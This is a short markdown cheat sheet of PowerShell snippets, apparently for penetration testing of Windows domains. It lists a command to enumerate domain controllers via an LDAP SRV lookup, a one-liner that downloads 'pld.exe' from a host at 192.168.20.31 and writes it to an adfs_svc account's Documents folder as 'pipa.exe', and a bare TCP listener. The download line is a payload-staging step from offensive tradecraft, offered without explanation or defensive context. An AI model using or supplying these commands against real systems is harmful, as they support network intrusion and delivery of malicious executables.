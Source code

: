 # Powershell

### Get all domain controllers

```powershell
$domain = ((systeminfo | Select-String "Domain:").Line -split ":")[1].Trim()
nslookup -type=SRV "_ldap._tcp.dc._msdcs.$domain"
```

### Download file

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.20.31:4445/pld.exe");[System.IO.File]::WriteAllBytes("C:\Users\adfs_svc\Documents\pipa.exe",$bytes);
```

### Listener

```powershell
$Listener = [System.Net.Sockets.TcpListener]8080;
$Listener.Start();
while ($true) {
    $client = $listener.AcceptTcpClient()
    $remoteEndPoint = $client.Client.RemoteEndPoint 
    Write-Host "IP: $($remoteEndPoint.Address), Port: $($remoteEndPoint.Port)"
    $client.Close()
}
```



